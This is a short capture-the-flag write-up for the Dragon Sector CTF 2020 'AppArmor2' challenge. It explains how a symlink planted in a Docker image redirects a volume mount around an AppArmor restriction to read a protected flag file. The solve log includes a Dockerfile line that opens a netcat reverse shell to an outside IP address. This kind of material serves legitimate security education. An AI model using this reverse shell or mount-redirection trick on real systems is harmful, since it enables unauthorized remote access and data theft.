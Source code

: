 ### Writeup for the AppArmor2 task from Dragon Sector CTF 2020
This is a very short writeup to the "AppArmor2" challenge from the [Dragon Sector CTF 2020](https://ctftime.org/event/1082), solved by disconnect3d from justCatTheFish ctf team.

In this CTF challenge, there was a custom AppArmor policy applied to the run containers, such that it disallowed reads/writes to `/flag-*` paths.

We, as a user, could only provide a docker image that was built and run later on, and the flag (which we wanted to steal) was mounted as a volume into the run container with a `docker run -v /flag.txt:/flag-XXYY ...` invocation. The `XXYY` part was random.

### Solution

The solver is in `./solve.sh`. When running for first time, you need to:
* update the (referenced) docker image name in `build.sh` and the `<<YOURIP>>` part
* login to gitlab docker registry (`docker login`) and share your project with `dragonsectorclient` (that's how you shared the docker image with the challenge, and the challenge pulled and run it later on)

The *bug* here is that AppArmor denies read/write/etc to `/flag-*` but this limitation is enforced during container run time **but not during its build time AND that Docker will follow symlinks present in the image when mounting files with `docker run -v /hostpath:/containerpath ...`**.

So it turns out that when the `docker run -v something:somepath ...` is invoked, the `somepath` follows links and we can make a link from `/flag-XXYY` to `/D` in our image. In the end, the `docker run -v /flag.txt:/flag-XXYY ...` will mount `flag.txt` into `/D` which we can read.

```
dc@jhtc:~/dsctf/x/task/ds-apparmor-task/solution$ ./solve.sh
mkdir: cannot create directory ‘rootfs’: File exists
Sending build context to Docker daemon  33.56MB
Step 1/4 : FROM ubuntu
 ---> d70eaf7277ea
Step 2/4 : RUN apt update && apt install -y netcat-traditional
 ---> Using cache
 ---> 40ac85e97bbe
Step 3/4 : ADD rootfs /
 ---> Using cache
 ---> 17f203a1ee6a
Step 4/4 : CMD nc 51.38.138.162 4444 -e /bin/sh
 ---> Using cache
 ---> 422aece7a145
Successfully built 422aece7a145
Successfully tagged registry.gitlab.com/mytempaccount123/test:latest
The push refers to repository [registry.gitlab.com/mytempaccount123/test]
3c45abc528a8: Layer already exists
be0923227e77: Layer already exists
cc9d18e90faa: Layer already exists
0c2689e3f920: Layer already exists
47dde53750b4: Layer already exists
latest: digest: sha256:fda92fc789dbfde33799502d18e30e8f3b2d184d9942ea1e6c5ff75f7003ffd5 size: 1365
[+] Opening connection to apparmor2.hackable.software on port 1337: Done
Executing b'hashcash -mb26 udqynihh'
out b'1:26:201121:udqynihh::i6HwB+Gk4OttOKvq:000000005+DgO\n'
b'Image added to the queue\n'
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 156.95.107.34.bc.googleusercontent.com 56178 received!
DrgnS{4e77cd33ffb0c7802b39303f7452fd90}
```
